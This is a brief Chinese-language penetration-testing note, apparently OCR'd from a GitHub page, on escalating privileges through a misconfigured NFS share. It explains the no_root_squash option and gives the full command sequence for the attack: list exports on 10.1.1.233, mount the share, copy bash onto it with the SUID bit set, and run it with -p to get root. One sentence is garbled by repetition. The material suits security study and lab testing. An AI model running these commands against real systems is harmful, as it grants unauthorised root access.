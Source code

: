 ## NFS提权

网络文件系统：网络文件系统允许客户端计算机上的用户通过网络挂载共享文件或目录。NFS使用远程过程调用（RPC）在客户端和服务器之间路由请求。

Root Squashing参数阻止对连接到NFS卷的远程root用户具有root访问权限。远程root用户在连接时会分配一个用户“ _nfsnobody_ ”，该用户具有最小的本地权限。如果 no__root_squash_ 选项开启的话的话”，并为远程用户授予root用户对所连接系统的访问权限。

查看NFS服务器上的共享目录

>sudo showmount -e 10.1.1.233  

本地挂载目录，使用攻击者本地root权限创建Suid shell。
 
>sudo mkdir -p /tmp/data  
>sudo mount -t nfs 10.1.1.233:/home/bypass /tmp/data  
>cp /bin/bash /tmp/data/shell  
>chmod u+s /tmp/data/shell  

在shell上使用`shell -p`参数获取root权限
















































